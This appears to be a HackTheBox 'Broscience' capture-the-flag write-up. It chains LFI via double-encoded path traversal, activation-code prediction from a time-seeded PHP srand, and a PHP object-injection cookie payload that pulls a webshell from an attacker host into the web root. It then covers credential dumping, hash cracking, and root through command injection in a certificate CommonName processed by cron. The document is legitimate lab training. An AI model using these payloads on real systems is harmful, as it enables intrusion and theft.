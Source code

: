 # HackTheBox Broscience

Initial Nmap top 1000 scans
```bash
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.54
443/tcp open  ssl/http Apache httpd 2.4.54 ((Debian))
```
Nmap full TCP port scan 65535
```bash
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
443/tcp   open     https
34304/tcp filtered unknown
```

One filtered port 34304

# https://broscience.htb

TECH stack php with apache2

usernames from site
bill		is admin = NO
administrator    is admin = YES
michael          is admin = NO
john             is admin = NO

Interesting finding from gobuster

https://broscience.htb/includes/
https://broscience.htb/activate.php
https://broscience.htb/includes/img.php?path=bench.png


# Foothold as www-data

The site is using images to display their workout pictures. That is calling from a url with the path parameter "http://broscience.htb/?path=imagName.jpg"
When we put the directory travesel payload something like this "../" in path parameter it will show a attack detected response. 

## LFI
So what we can do is bypass the fillter and read the arbitary files. I tried to double encode the payload "../index.php" and put the path parameter we got response back with the content of index.php file. I tried to get all of the site php file to my local machine for analyses some features we find.

We know there is an login and register functionilities.if we registered a new account 
We need to activate the account to login and use unfortunately we have no options to get the activation mail. So moving to the source file we find using path travesel vulnerability there is an activation.php file which show as to we need to get a code a 32bit code to activate the account aslo we can identify how it's generated the activation code from register.php file 

found the code to use the user profile activation it use time stamp 
so what we can do is Create a new user and grap the response timestamp to create a activation code using the following php code.

```php
<?php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    $t = 'Mon, 16 Jan 2023 04:46:24 GMT';
    srand(strtotime($t));
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}

$code = generate_activation_code();
echo $code; 

?>
```
Now we sucessfully activated and logged in

# RCE
Their is nothing much interesting we can do. The only thing we can do is change the theme to dark and light. we analayzed the source code to check how the theme is working we can see it use a custom cookie to maintain the theme in every section and cookie is created using php serilazed object also it cookie value is passed directily to unserilaze funtion without any validation so what we can do The code  has a potential unserialization vulnerability in the get_theme() function. The vulnerability lies in the fact that the value of the user-prefs cookie is unserialized without proper validation or sanitization, which could potentially allow an attacker to execute arbitrary code by crafting a malicious payload that is unserialized by the application

Analyze the code we can see a class name AvatarInterface to use save file on the server.Create a payload that creates an object of class AvatarInterface with the imgPath property set to a file path on the server and the tmp property set to a remote file containing malicious code. When the object is unserialized, the __wakeup() function would be called, and the malicious code would be written to the specified file path on the server, potentially allowing the attacker to execute arbitrary code with the permissions of the user running the web server.

Detailed view about php objectInjection from owasp
Referance [https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)


Created a paylod using this php code
```php
<?php

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp = 'http://10.10.16.10/shell.php'; //remote
    public $imgPath = '/var/www/html/shell.php'; //local file to save

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
function get_theme(){
         $up_cookie = base64_encode(serialize(new AvatarInterface()));
         echo $up_cookie;
}

get_theme();
//$up = unserialize(base64_decode(get_theme()));
//echo $up->theme;


?>
```
Uploaded a webshell and got the reverseShell

# User bill
Grap the postgresql creds from db_connect.php file and connected postgresql using psql.
dump users tables and collect all hashes
The application code is using md5 with a salt to converted the plaintext password to hash and stored in users tables
Cracked the hash and taking ssh as user "bill"

# Priveilage escalation

We found a shell script in the /opt directory named "renew_cert.sh." Reading that script, we can see it check the SSL CRT file as an argument to review the CRT file to see if it has expired within a day; if it has expired, it will take all the content parts of the CRT and put them into variables and create a new CRT using openssl. When the creation is finished, it copies the crt file to the bill cert directory in bill homes with the name $CommonName in the crt file.
Check the root process using pspy. We can see that a cron job will execute the script with an argument of "broscience.crt" from Bill Certs' directory.Furthermore, we are unable to run pspy as usual because it is causing our shell to hang. To resolve this issue, we use the -r flag in pspy to watch a specific directory.
So what we can do is create an SSL CRT file with a one-day expiration date and inject an OS command into the CommanName field of the SSL CRT. When the cron runs the script, it will move the file we specified in "commanName" and trigger our injection.

Creating ssl cerfiticate
```bash
openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /tmp/temp.crt -days  1
```
mv the crt file to Certs diretory and wait a few seconds to run trigger the payload
We rooted the box sucessfully

